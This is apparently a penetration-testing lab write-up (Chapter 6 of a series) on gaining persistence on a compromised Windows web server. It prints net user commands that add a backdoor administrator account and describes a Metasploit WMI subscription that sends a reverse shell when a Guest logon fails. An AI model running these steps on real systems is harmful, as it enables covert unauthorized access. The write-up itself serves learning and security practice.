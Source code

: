 # Chapter 6:
##### *Friday, October 13th, 2023*
* Using a WMI Subscription to Establish Persistence
---
## Intro

In this chapter, I'll be continuing my investigation of the ISS Playlist website. Read Chapter 5 if you want to start from the beginning.

## Using a WMI Subscription to Establish Persistence

``` powershell
PS C:\Windows\system32> net user /add notsus Muchsecure1!       
net user /add notsus Verysecure1!
The command completed successfully.

PS C:\Windows\system32> net localgroup administrators /add notsus
net localgroup administrators /add notsus
The command completed successfully.
```

I created an extra admin account on the compromised web server to act as a primary method of persistence.

![](a/978487a992408557b3eeeac831f3ea19.png)

I can log in later using rpcclient or smbclient, but I'd like to use a method that's a little harder to find than by typing `Get-LocalUser`. I'll try Metasploit's `exploit/windows/local/wmi_persistence`:

![](a/cb86480512681dd818c9784ef1feafef.png)

I had some trouble for a while figuring out how to get the `wmi_persistence` exploit to run. I'm not sure how to background a meterpreter session while still in Powershell...

![](a/c39ae723dff35b430399019e35def03e.png)

![](a/40b7f2b569a119d9a244fca67beb0494.png)

![](a/7c0e707808c53666ed45f978c0ea989a.png)

![](a/f0b65066a7f31d1920f819090aa0af73.png)

First I tried the above, where I started a Powershell process that had SYSTEM privileges, hiding it with -H, then migrating to it. Sadly, it didn't:

![](a/38a89a85ec386e70bde7aa5d3c2d692c.png)

![](a/7195aa2dafa0cc2f67d3ef5c2504a536.png)

I bet I fixed it!

![](a/0e0918b59c8ccdd8e93015f9934c8631.png)

I think I'm going to persist in a different direction now...

![](a/cdd6b870929cad94e3839146d5b9ac2f.gif)

After some research, I found out that some modules may be incompatible with `wmi_persistence`. I'll try using a different module for the reverse shell.

![](a/e386323908d31e5e7e996d7d23255944.png)

![](a/89ee0e945a035977f2e8b5afdc011233.gif)

I switched to the more basic `exploit/windows/meterpreter/reverse_tcp` module and it worked!!! 

The `wmi_persistence` module works by creating a WMI `Windows Management Instrumentation` subscription to a windows event. The default event used by the `wmi_persistence` module is a failed login to an account named "BOB". You can choose any account name that you want, or even use an entirely different event ID. I used the default event, and switched the username to "Guest". Once the target machine detects the security log event ID `4625 Failed Logon` for the account "Guest," it will send a reverse shell to my waiting listener.

![](a/564bc8ffbe03db495d69716956fbea12.png)

![](a/f937d561e3cdbd88e8d0884d34d55e30.gif)

![](a/95e409aef0ebab172155d0ea1b68d7f2.png)

![](a/c4fc421105d99a28d76cf2582236cf19.gif)

# Happy Friday, and see you next time!